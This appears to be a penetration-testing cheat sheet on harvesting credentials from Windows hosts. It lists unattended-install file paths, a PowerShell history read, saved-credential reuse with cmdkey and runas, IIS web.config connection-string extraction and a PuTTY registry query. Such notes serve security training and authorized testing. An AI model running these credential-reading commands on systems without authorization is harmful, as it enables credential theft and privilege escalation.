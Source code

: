 ## Unattended Windows Installations

credentials may be left over after sccm deploys a unattended image to the machine

can be found at:

- C:\\Unattend.xml
- C:\\Windows\\Panther\\Unattend.xml
- C:\\Windows\\Panther\\Unattend\\Unattend.xml
- C:\\Windows\\system32\\sysprep.inf
- C:\\Windows\\system32\\sysprep\\sysprep.xml

Powershell history:

NOTE: must be in cmd.exe:

```shell-session
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Saved Windows Credentials

`cmdkey /list`

`runas /savecred /user:admin cmd.exe`

## IIS Configuration

Depending on the installed version of IIS, we can find web.config in one of the following locations:

- C:\\inetpub\\wwwroot\\web.config
- C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\Config\\web.config

can be quickly found with:

```cmd.exe
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

## Retrieve Credentials from Software: PuTTY

```shell-session
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```